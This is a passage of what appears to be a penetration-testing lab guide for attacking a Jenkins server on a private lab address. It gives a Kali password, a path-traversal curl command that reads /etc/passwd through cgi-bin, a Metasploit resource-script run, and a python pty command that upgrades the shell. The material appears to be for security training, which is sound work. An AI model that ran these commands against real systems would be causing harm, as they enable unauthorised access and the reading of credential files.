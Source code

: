 ```



```
Password: kali
```




2. Run the command to pull the passwords file from the jenkins server. 

    ```
curl http://192.168.11.2/cgi-bin/../../../..//bin/cat%20/etc/passwd
```



(Output)



<p id="gdcalert21" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: error handling inline image </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert22">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





3. Run the following command to run a full exploit against the jenkins server. 

    ```
msfconsole -r jenkins.rc
```



(Output)



<p id="gdcalert22" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: error handling inline image </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert23">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>




```
If the exploit fails, please reboot the Jenkins server (Compute Engine → VM Instances) and retry 
the exploit.
```




4. Enter the command to access the shell of Jenkins server:

    ```
python -c 'import pty; pty.spawn("/bin/bash")'
```
